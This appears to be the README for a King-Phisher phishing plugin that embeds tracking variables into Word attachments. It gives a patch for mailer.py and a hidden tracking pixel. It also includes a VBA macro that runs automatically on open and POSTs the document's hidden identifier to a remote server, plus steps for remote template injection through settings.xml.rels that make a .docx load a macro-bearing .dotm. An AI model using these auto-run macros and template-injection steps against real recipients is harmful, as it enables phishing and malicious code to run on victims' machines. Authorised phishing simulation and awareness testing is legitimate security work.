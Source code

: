 # King-Phisher Plugin
This plugin will take an docx attachment and embed King Phisher Jinja variables into it when sending the email to a target.
With this plugin you can check how many people opened the Word attachment and choose the option to activate the macro or their macro execution was already active.

# Prerequisites
note: The client and server must not be running.

you can run below command in install king-phisher directory for example, suppose you installed it at /opt/king-phisher then:

    cd /opt/king-phisher

    pipenv install docxtpl
    
# Local install
1. Locate the docx_generator folder in the following path:

    $HOME/.config/king-phisher/plugins
    
2. File mailer.py is located in the following path:

    /opt/king-phisher/king_phisher/client/mailer.py
    
Put the following code in the mailer.py file   

    def render_DOC_template_var(config, target=None, analyze=False):
      """	
            Take a config and return Template variables
      """
      if target is None:
        target = MessageTargetPlaceholder(uid=config['server_config'].get('server.secret_id'))
        template_environment.set_mode(template_environment.MODE_PREVIEW)
      print(target)
      if analyze:
        template_environment.set_mode(template_environment.MODE_ANALYZE)

      template_vars = {}
      template_vars['campaign'] = dict(
        id=str(config['campaign_id']),
        name=config['campaign_name']
      )
      template_vars['client'] = dict(
        first_name=target.first_name,
        last_name=target.last_name,
        email_address=target.email_address,
        department=target.department,
        company_name=config.get('mailer.company_name'),
        message_id=target.uid
      )

      template_vars['sender'] = dict(
        email=config.get('mailer.source_email'),
        friendly_alias=config.get('mailer.source_email_alias'),
        reply_to=config.get('mailer.reply_to_email')
      )
      template_vars['uid'] = target.uid

      message_type = config.get('mailer.message_type', 'email')
      template_vars['message_type'] = message_type
      if message_type == 'calendar_invite':
        template_vars['calendar_invite'] = dict(
          all_day=config.get('mailer.calendar_invite_all_day'),
          location=config.get('mailer.calendar_invite_location'),
          start=get_invite_start_from_config(config),
          summary=config.get('mailer.calendar_invite_summary')
        )

      template_vars['message'] = dict(
        attachment=config.get('mailer.attachment_file'),
        importance=config.get('mailer.importance'),
        recipient=dict(
          field=config.get('mailer.target_field', 'to'),
          to=(target.email_address if config.get('mailer.target_field') == 'to' else config.get('mailer.recipient_email_to', '')),
          cc=(target.email_address if config.get('mailer.target_field') == 'cc' else config.get('mailer.recipient_email_cc', '')),
          bcc=(target.email_address if config.get('mailer.target_field') == 'bcc' else '')
        ),
        sensitivity=config.get('mailer.sensitivity'),
        subject=config.get('mailer.subject'),
        template=config.get('mailer.html_file'),
        type=message_type
      )

      webserver_url = config.get('mailer.webserver_url', '')
      webserver_url = urllib.parse.urlparse(webserver_url)
      tracking_image = config['server_config']['server.tracking_image']
      template_vars['webserver'] = webserver_url.netloc
      tracking_url = urllib.parse.urlunparse((webserver_url.scheme, webserver_url.netloc, tracking_image, '', 'id=' + target.uid, ''))
      webserver_url = urllib.parse.urlunparse((webserver_url.scheme, webserver_url.netloc, webserver_url.path, '', '', ''))
      template_vars['tracking_dot_image_tag'] = "<img src=\"{0}\" style=\"display:none\" />".format(tracking_url)

      template_vars_url = {}
      template_vars_url['rickroll'] = 'http://www.youtube.com/watch?v=oHg5SJYRHA0'
      template_vars_url['webserver'] = webserver_url + '?id=' + target.uid
      template_vars_url['webserver_raw'] = webserver_url
      template_vars_url['tracking_dot'] = tracking_url
      template_vars['url'] = template_vars_url
      template_vars.update(template_environment.standard_variables)
      return template_vars
      
3. run server and client of king-phisher. In the client, enter the plugin manager dialog from tools -> manage plugins. From the local install section, check the install and enable docx_generator.

note: docx_generator and pdf_generator can not be activated at the same time

4. create a dotm template with macro on it. in the macro send uid (The unique tracking identifier ) to the landing page when open document file. sample code:

    Sub Auto_Open()
        expl
    End Sub

    Sub AutoOpen()
        expl
    End Sub

    Sub Document_Open()
        expl
    End Sub

    Public Function expl() As Variant

        Set mainStory = ActiveDocument.Content

        Dim MyRequest As Object
        Set MyRequest = CreateObject("WinHttp.WinHttpRequest.5.1")

        MyRequest.Open "POST", "https://[web_server_url]/[landing_page_name]?id=" + mainStory, False
        MyRequest.setRequestHeader "Content-type", "application/x-www-form-urlencoded"
        MyRequest.send (mainStory)

    End Function

5. Create the Word file with the template defined in the previous step and just write the following command in it and whiten its color. 

    {{ secret_id }}
  

6. After completing these steps, you place the template file created in step 4 on the server and change its premission so that it can be downloaded by everyone. Then you have to put the address of this file in the created Word file.To do this, zip the Word file and extract it and go to the following path:

    word_rels\settings.xml.rels
    
And replace the dotm file address with its local address in the Target section. see code below

    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
    <Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="http://[web_server_address]/[name].dotm" TargetMode="External"/>     </Relationships>

7. create your campaign and attach your docx file and enjoy it
